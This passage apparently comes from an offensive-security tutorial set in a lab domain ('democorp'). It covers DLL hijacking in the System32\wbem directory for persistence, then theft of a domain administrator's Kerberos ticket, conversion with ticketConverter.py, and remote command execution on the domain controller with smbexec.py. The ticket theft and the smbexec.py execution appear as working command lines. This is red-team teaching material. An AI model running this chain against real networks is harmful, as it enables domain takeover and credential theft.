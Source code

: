![](http://news.baycode.eu/wp-content/uploads/2023/11/13-1.png)

Now, we'll proceed to compile the trojan and upload both of the created .dll files into the `C:\Windows\System32\wbem` directory.

![](http://news.baycode.eu/wp-content/uploads/2023/11/15-1.png)

We must now patiently await the execution of these trojanized DLLs by a legitimate process, effectively setting the trap.

![](http://news.baycode.eu/wp-content/uploads/2023/11/16-1.png)

We've successfully hijacked the .DLL and established persistence through DLL hijacking.

![](http://news.baycode.eu/wp-content/uploads/2023/11/17-1.png)

Now, we can see, that the domain administrator has logged in to the computer, and we've just gained access to the domain administrator's session on this computer, which enables us to potentially cause significant disruptions within the domain.

![](http://news.baycode.eu/wp-content/uploads/2023/11/19-1.png)

We were able to connect to the Domain Controller over SMB using the Kerberos authentication.
```
dir \\democorp-dc.democorp.com\C$
```

![](http://news.baycode.eu/wp-content/uploads/2023/11/20-1.png)

As well as extract the ticket from this computer and save it for later use.
```
klist /all
```

![](http://news.baycode.eu/wp-content/uploads/2023/11/21-1.png)

And execute commands on the Domain Controller as a Domain Administrator.
```
cat ticket | base64 -d > ticket1 # base64 decode the ticket

ticketConverter.py ./ticket1 ticket.ccache # convert the ticket to Linux format

export KRB5CCNAME=/home/kali/lateralmovement/ticket1.ccache # Export the ticket to environmental variable so it is used in Impacket

rdate -n 10.10.24.250 # Fix the clock skew

smbexec.py democorp-dc.democorp.com -k -no-pass -target-ip 10.10.24.250 -dc-ip 10.10.24.250 # Execute commands on the remote.
```

![](http://news.baycode.eu/wp-content/uploads/2023/11/22-1.png)

With `NT Authority/System` privileges.
```
whoami /all
```
